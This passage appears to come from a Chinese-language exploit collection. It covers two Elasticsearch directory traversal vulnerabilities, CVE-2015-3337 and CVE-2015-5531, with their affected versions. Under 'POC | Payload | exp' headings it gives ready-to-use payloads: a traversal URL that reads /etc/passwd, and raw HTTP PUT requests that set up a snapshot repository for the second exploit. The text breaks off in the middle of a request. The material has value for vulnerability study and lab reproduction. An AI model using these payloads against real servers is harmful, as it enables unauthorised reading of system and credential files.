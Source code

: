     在安装了具有"site"功能的插件以后,插件目录使用 ../ 即可向上跳转,导致目录穿越漏洞,可读取任意文件.没有安装任意插件的 elasticsearch 不受影响.

- 影响版本

    - ElasticSearch < 1.4.4
    - ElasticSearch 1.5.0 ~ 1.5.1

- POC | Payload | exp

    来源: https://vulhub.org/#/environments/elasticsearch/CVE-2015-3337/

    - `http://your-ip:9200/_plugin/head/../../../../../../../../../etc/passwd` (不要在浏览器访问)

    - `http://your-ip:9200/_plugin/head/`

**CVE-2015-5531**
- 描述

    elasticsearch 1.5.1 及以前,无需任何配置即可触发该漏洞.之后的新版,配置文件 elasticsearch.yml 中必须存在 path.repo,该配置值为一个目录,且该目录必须可写,等于限制了备份仓库的根位置.不配置该值,默认不启动这个功能.

- 影响版本

    - ElasticSearch < 1.6.0

- 相关文章
    - [Elasticsearch目录遍历漏洞 (CVE-2015-5531) 复现与分析 (附PoC) ](https://www.freebuf.com/vuls/99942.html)

- POC | Payload | exp

    来源: https://vulhub.org/#/environments/elasticsearch/CVE-2015-5531/

    新建一个仓库
    ```
    PUT /_snapshot/test HTTP/1.1
    Host: your-ip:9200
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 108

    {
        "type": "fs",
        "settings": {
            "location": "/usr/share/elasticsearch/repo/test"
        }
    }
    ```

    创建一个快照
    ```
    PUT /_snapshot/test2 HTTP/1.1
    Host: your-ip:9200
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 108
